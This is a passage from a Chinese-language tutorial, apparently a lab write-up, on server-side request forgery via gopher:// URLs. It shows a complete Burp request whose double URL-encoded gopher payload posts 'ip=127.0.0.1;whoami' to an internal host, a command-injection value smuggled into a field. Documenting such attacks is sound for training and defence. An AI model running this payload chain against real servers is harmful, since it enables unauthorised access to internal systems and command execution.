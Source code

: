     - 这就是gopher需要携带的数据了，但是因为gopher会url解码，所以我们要将全部数据url编码。TCP协议以`\r\n`来回车换行，http头也是以\r\n换行的，所以直接url编码就行。

    - 然后进行第二次url编码，这次是因为我是是在burp里面修改post请求的body，body本身就会解码，所以我们需要编码一次。

        ```http
        POST / HTTP/1.1
        Host: www.test.com:8080
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Accept-Encoding: gzip, deflate
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 4017
        Origin: http://www.test.com:8080
        Connection: close
        Referer: http://www.test.com:8080/
        Upgrade-Insecure-Requests: 1
        
        url=gopher://172.72.23.24:80/_%25%35%30%25%34%66%25%35%33%25%35%34%25%32%30%25%32%66%25%32%30%25%34%38%25%35%34%25%35%34%25%35%30%25%32%66%25%33%31%25%32%65%25%33%31%25%30%64%25%30%61%25%34%38%25%36%66%25%37%33%25%37%34%25%33%61%25%32%30%25%33%31%25%33%37%25%33%32%25%32%65%25%33%37%25%33%32%25%32%65%25%33%32%25%33%33%25%32%65%25%33%32%25%33%34%25%30%64%25%30%61%25%35%35%25%37%33%25%36%35%25%37%32%25%32%64%25%34%31%25%36%37%25%36%35%25%36%65%25%37%34%25%33%61%25%32%30%25%34%64%25%36%66%25%37%61%25%36%39%25%36%63%25%36%63%25%36%31%25%32%66%25%33%35%25%32%65%25%33%30%25%32%30%25%32%38%25%35%37%25%36%39%25%36%65%25%36%34%25%36%66%25%37%37%25%37%33%25%32%30%25%34%65%25%35%34%25%32%30%25%33%31%25%33%30%25%32%65%25%33%30%25%33%62%25%32%30%25%35%37%25%36%39%25%36%65%25%33%36%25%33%34%25%33%62%25%32%30%25%37%38%25%33%36%25%33%34%25%33%62%25%32%30%25%37%32%25%37%36%25%33%61%25%33%31%25%33%30%25%33%33%25%32%65%25%33%30%25%32%39%25%32%30%25%34%37%25%36%35%25%36%33%25%36%62%25%36%66%25%32%66%25%33%32%25%33%30%25%33%31%25%33%30%25%33%30%25%33%31%25%33%30%25%33%31%25%32%30%25%34%36%25%36%39%25%37%32%25%36%35%25%36%36%25%36%66%25%37%38%25%32%66%25%33%31%25%33%30%25%33%33%25%32%65%25%33%30%25%30%64%25%30%61%25%34%31%25%36%33%25%36%33%25%36%35%25%37%30%25%37%34%25%33%61%25%32%30%25%37%34%25%36%35%25%37%38%25%37%34%25%32%66%25%36%38%25%37%34%25%36%64%25%36%63%25%32%63%25%36%31%25%37%30%25%37%30%25%36%63%25%36%39%25%36%33%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%32%66%25%37%38%25%36%38%25%37%34%25%36%64%25%36%63%25%32%62%25%37%38%25%36%64%25%36%63%25%32%63%25%36%31%25%37%30%25%37%30%25%36%63%25%36%39%25%36%33%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%32%66%25%37%38%25%36%64%25%36%63%25%33%62%25%37%31%25%33%64%25%33%30%25%32%65%25%33%39%25%32%63%25%36%39%25%36%64%25%36%31%25%36%37%25%36%35%25%32%66%25%36%31%25%37%36%25%36%39%25%36%36%25%32%63%25%36%39%25%36%64%25%36%31%25%36%37%25%36%35%25%32%66%25%37%37%25%36%35%25%36%32%25%37%30%25%32%63%25%32%61%25%32%66%25%32%61%25%33%62%25%37%31%25%33%64%25%33%30%25%32%65%25%33%38%25%30%64%25%30%61%25%34%31%25%36%33%25%36%33%25%36%35%25%37%30%25%37%34%25%32%64%25%34%63%25%36%31%25%36%65%25%36%37%25%37%35%25%36%31%25%36%37%25%36%35%25%33%61%25%32%30%25%37%61%25%36%38%25%32%64%25%34%33%25%34%65%25%32%63%25%37%61%25%36%38%25%33%62%25%37%31%25%33%64%25%33%30%25%32%65%25%33%38%25%32%63%25%37%61%25%36%38%25%32%64%25%35%34%25%35%37%25%33%62%25%37%31%25%33%64%25%33%30%25%32%65%25%33%37%25%32%63%25%37%61%25%36%38%25%32%64%25%34%38%25%34%62%25%33%62%25%37%31%25%33%64%25%33%30%25%32%65%25%33%35%25%32%63%25%36%35%25%36%65%25%32%64%25%35%35%25%35%33%25%33%62%25%37%31%25%33%64%25%33%30%25%32%65%25%33%33%25%32%63%25%36%35%25%36%65%25%33%62%25%37%31%25%33%64%25%33%30%25%32%65%25%33%32%25%30%64%25%30%61%25%34%33%25%36%66%25%36%65%25%36%65%25%36%35%25%36%33%25%37%34%25%36%39%25%36%66%25%36%65%25%33%61%25%32%30%25%36%33%25%36%63%25%36%66%25%37%33%25%36%35%25%30%64%25%30%61%25%35%35%25%37%30%25%36%37%25%37%32%25%36%31%25%36%34%25%36%35%25%32%64%25%34%39%25%36%65%25%37%33%25%36%35%25%36%33%25%37%35%25%37%32%25%36%35%25%32%64%25%35%32%25%36%35%25%37%31%25%37%35%25%36%35%25%37%33%25%37%34%25%37%33%25%33%61%25%32%30%25%33%31%25%30%64%25%30%61%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%36%65%25%37%34%25%32%64%25%35%34%25%37%39%25%37%30%25%36%35%25%33%61%25%32%30%25%36%31%25%37%30%25%37%30%25%36%63%25%36%39%25%36%33%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%32%66%25%37%38%25%32%64%25%37%37%25%37%37%25%37%37%25%32%64%25%36%36%25%36%66%25%37%32%25%36%64%25%32%64%25%37%35%25%37%32%25%36%63%25%36%35%25%36%65%25%36%33%25%36%66%25%36%34%25%36%35%25%36%34%25%30%64%25%30%61%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%36%65%25%37%34%25%32%64%25%34%63%25%36%35%25%36%65%25%36%37%25%37%34%25%36%38%25%33%61%25%32%30%25%33%31%25%33%39%25%30%64%25%30%61%25%30%64%25%30%61%25%36%39%25%37%30%25%33%64%25%33%31%25%33%32%25%33%37%25%32%65%25%33%30%25%32%65%25%33%30%25%32%65%25%33%31%25%33%62%25%37%37%25%36%38%25%36%66%25%36%31%25%36%64%25%36%39
        ```
